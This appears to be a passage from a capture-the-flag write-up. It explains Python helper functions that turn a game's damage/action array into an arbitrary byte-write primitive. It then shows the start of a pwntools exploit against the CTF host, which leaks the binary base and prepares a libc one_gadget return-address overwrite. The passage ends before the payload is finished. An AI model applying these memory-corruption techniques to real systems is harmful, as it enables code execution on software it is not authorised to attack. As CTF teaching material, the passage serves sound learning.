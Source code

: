 ```py
```
- `set_byte(addr_offset, val)`: Search through dmgs until we find an unused -1 (which sets its offset to 0). Set the action to the calculated offset. Then continue until we find another `dmg = (-val & 0xFF)`. Again set the action to the calculated offset
```py
def set_byte(addr_offset, val):
    global actions, dmgs, latest
    offset = addr_offset - 11
    found_zero = False
    for i, dmg in enumerate(dmgs):
        if not found_zero and dmg == -1 and isnothing(i):
            actions[i] = offset
            print("Action", i, "zeroed", addr_offset)
            if i+1 > latest:
                latest = i+1
            found_zero = True
                
        if found_zero and dmg == (-val) & 0xFF and isnothing(i):
            actions[i] = offset
            print("Action", i, "caused", dmg, "damage")
            if i+1 > latest:
                latest = i+1
            return
    print("No action found")
```
- `set_long(addr_offset, bval, n=6)`: Run `set_byte(addr_offset+i, bval[i])` for i in 0..n. The reason we set n = 6 is because addresses tend to have 0 at the highest 2 bytes anyway.
```py
def set_long(addr_offset, bval, n=6):
    global actions, dmgs, latest
    for i in range(n):
        set_byte(addr_offset+i, bval[i])
```
- `run()`: Go through the actions array, sending each value to the remote until we are past latest or the program asks to be ended.
```py
def run(r):
    global actions, latest
    for i, a in enumerate(actions[:latest]):
        if a == DIE:
            r.sendline(b'a')
            break
        if a != NOTHING:
            print("Action", i, "=", a)

        r.sendline(str(a).encode())
    r.interactive()
```
With these helper functions, we can finally run our exploit:
```py
r = remote("dicec.tf", 32030)

# Get a leak of main to find the data address
first_resp = r.recvuntil(b' > ')
# get_hex returns all strings of the form 0x[0-9a-f] as numbers. The last one will be &print_ui.
leak = get_hex(first_resp)[-1]

chal.address = leak - chal.symbols["print_ui"]


onegadget = 0xebce2
retaddr = libc.symbols["__libc_start_call_main"] + 128

bonegadget = p64(onegadget)
```